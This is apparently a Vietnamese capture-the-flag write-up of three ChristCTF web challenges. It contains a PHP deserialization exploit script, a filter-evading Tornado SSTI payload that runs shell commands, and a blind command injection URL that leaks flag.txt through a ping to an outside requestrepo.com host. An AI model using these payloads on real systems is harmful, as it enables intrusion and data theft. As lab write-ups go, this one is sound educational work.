



# LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "



```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass



` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.




Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzz thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức `DNS`. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh `ping` thì lại oke .
## KHAI THÁC

`` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)``

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buồn.
